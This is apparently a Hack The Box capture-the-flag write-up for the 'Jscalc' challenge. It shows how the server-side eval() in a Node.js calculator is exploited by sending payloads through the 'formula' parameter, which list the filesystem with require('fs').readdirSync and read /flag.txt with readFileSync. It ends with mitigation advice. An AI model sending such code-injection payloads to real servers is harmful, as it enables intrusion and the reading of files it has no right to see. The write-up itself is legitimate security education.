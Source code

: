 # Jscalc Challenges — HTB (easy) — Writeup

![screenshot](./Jscalc-1.png)

## Description

In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑

---

## TL;DR

I found an `eval()` usage in a Node.js-powered site which allowed remote code execution (RCE) via JavaScript. By requiring the Node `fs` module I listed the filesystem and read `/flag.txt`.

---

## What I did — step by step

### 1. Download & unzip

After downloading the challenge files and unzipping them we see the extracted files:

![screenshot](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*Alc3Jf5AYxSq7Wo-faGRSw.png)

Nothing interesting at first glance, so I inspected the web app.

### 2. Open the website

![screenshot](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aMJoxNYzC_JaQveYS5ZD6Q.png)

### 3. Spot `eval()` usage

The site uses `eval()` to evaluate formulas. Quick reminder: `eval()` executes the string it's given in the caller's context — if that string can be influenced by an attacker, it can run arbitrary code in the environment of the webpage (or the Node process if running server-side).

![screenshot](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*ow1lbwAvkE_f7CFyCNPjCA.png)

Because `package.json` showed the app runs on **Node.js**, server-side JavaScript execution opens the door to `require()` and the full Node API — meaning we can attempt RCE.

![screenshot](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*BHu3oMUgpRV9gAT1h03EVQ.png)

### 4. Intercepting requests with Burp Suite

I inspected requests with Burp and noticed the endpoint accepts a `formula` parameter. I tested injecting `require('fs')` into that parameter.

![screenshot](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*AZRueOxoAUjc0eqtheQWnQ.png)

### 5. Using `fs` to explore the filesystem

Once `require('fs')` worked, I used `readdirSync()` to list directories. Example payload (sent through the `formula` parameter):

```js
require('fs').readdirSync('../').toString();
```

The response returned (root listing):

```
app, bin, dev, etc, flag.txt, home, lib, media, mnt, opt, proc, root, run, sbin, srv, sys, tmp, usr, var
```

This confirmed we were able to read server filesystem contents and that `/flag.txt` exists at the root.

### 6. Read the flag

Next payload to read the flag file:

```js
require('fs').readFileSync('/flag.txt').toString();
```

![screenshot](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*AZRueOxoAUjc0eqtheQWnQ.png)

And — boom — we obtained the flag.

---

## Commands / payloads used

* List root directory:

```js
require('fs').readdirSync('../').toString();
```

* Read the flag:

```js
require('fs').readFileSync('/flag.txt').toString();
```

---

## Notes & mitigation

* Avoid using `eval()` on untrusted input. If dynamic expression evaluation is required, use safe parsers or sandboxed interpreters.
* On Node.js, never expose `require`/internal modules via user-controllable evaluation contexts.
* Validate and sanitize any user-supplied expressions, or run them inside a strict sandbox like a separate process with minimal privileges.

---

## Final

Thanks for reading